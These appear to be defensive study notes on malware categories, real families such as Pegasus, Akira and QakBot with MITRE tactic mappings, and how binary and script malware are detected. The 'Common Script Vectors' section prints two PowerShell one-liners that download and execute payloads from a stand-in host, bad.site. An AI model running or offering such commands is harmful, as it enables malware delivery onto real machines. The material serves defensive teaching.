


# Malware Categories & Behaviors

* **Adware (e.g., Fireball):** Injects unwanted advertisements (e.g., constant browser pop-ups).
* **Spyware (e.g., Hermit):** Secretly tracks user activity and collects data. 
* **Ransomware (e.g., WannaCry):** Encrypts files and systems, demanding payment for the decryption key.
* **Wiper (e.g., PathWiper):** Permanently overwrites or deletes data for pure destruction/sabotage.
* **C2 / Command & Control (e.g., Emotet):** Beacons to an external server, granting attackers remote access to execute commands.
* **Data Stealer (e.g., Lumma Stealer):** Scours directories to exfiltrate sensitive files and credentials.
* **Keylogger (e.g., Zeus):** Records user keystrokes to harvest passwords and confidential input.
* **Cryptominer (e.g., Coinhive):** Hijacks system resources (causing high CPU usage and slow performance) to mine cryptocurrency.
---

# Malware Families & Case Studies

## The Core Concept
A **Malware Family** is a group of malicious programs sharing the same origin, codebase, and behavior. Grouping them allows SOC teams to apply known defenses and indicators of compromise (IOCs).

## Real-World Case Studies

* **Spyware: Pegasus**
  * **Target:** Mobile devices.
  * **Behavior:** Silently installs via exploits to harvest texts, location, and mic/camera data. 
  * **MITRE:** TA0009 (Collection), TA0010 (Exfiltration)

* **Ransomware: Akira**
  * **Target:** Enterprise networks.
  * **Behavior:** Encrypts files and employs double-extortion (demands crypto to decrypt and threatens to leak stolen data).
  * **MITRE:** TA0040 (Impact), TA0011 (Command and Control)

* **Wiper: Shamoon**
  * **Target:** Critical infrastructure (e.g., Saudi Aramco).
  * **Behavior:** Overwrites files with useless data to permanently destroy systems. No ransom, pure sabotage.
  * **MITRE:** TA0040 (Impact)

* **Data Stealer: Agent Tesla**
  * **Target:** End users via phishing.
  * **Behavior:** Captures keystrokes, screenshots, and credentials from browsers/email clients, sending them to a C2 server.
  * **MITRE:** TA0010 (Exfiltration)

* **Keylogger: RedLine Stealer**
  * **Target:** End users via phishing/malicious sites.
  * **Behavior:** Acts as a keylogger and stealer, specifically targeting browser cookies, credentials, and crypto wallets.
  * **MITRE:** TA0006 (Credential Access), TA0010 (Exfiltration)

* **C2 RAT: QakBot (QBot)**
  * **Target:** Global organizations.
  * **Behavior:** Modular Remote Access Trojan (RAT) used for lateral movement, credential theft, and acting as a loader for ransomware like Black Basta.
  * **MITRE:** TA0011 (Command and Control), TA0002 (Execution), TA0006 (Credential Access)
----
# Binary vs. Script-Based Malware

## Binary Malware
* **Format:** Compiled executables (`.exe`, `.dll`).
* **Pros for Attackers:** Stable, supports complex payloads.
* **Detection:** Relies on static analysis. Because compiled code doesn't change, you can reliably identify them using checksums (MD5/SHA), hardcoded strings, and byte sequences, regardless of file extension or name changes.

## Script-Based Malware
* **Format:** Interpreted code (`.ps1`, `.bat`, `.js`, `.vbs`, Office Macros).
* **Pros for Attackers:** Easy to modify, highly flexible, and enables "fileless" execution (running directly in memory without dropping a file on disk).
* **Red Flags:** 
  * Downloads or executes external payloads.
  * Modifies system settings or disables AV.
  * Uses heavy encoding or obfuscation (e.g., Base64).
  * Unexpectedly spawns `powershell.exe` or `cmd.exe`.

## Common Script Vectors
* **Basic Dropper (.bat):**
  `powershell -Command "Invoke-WebRequest http://bad.site/payload.exe -OutFile C:\Users\Public\payload.exe"`
* **Fileless Execution (.ps1):**
  `powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://bad.site/payload.ps1')"`
* **Advanced Obfuscation (e.g., LummaStealer delivery):**
  Scripts hide massive Base64 strings in variables, decrypt them at runtime, and load the payload directly into memory using a `.NET` assembly to bypass disk-based scanning.
---
in the below you can see the pictures of real malware which called LummaStealer

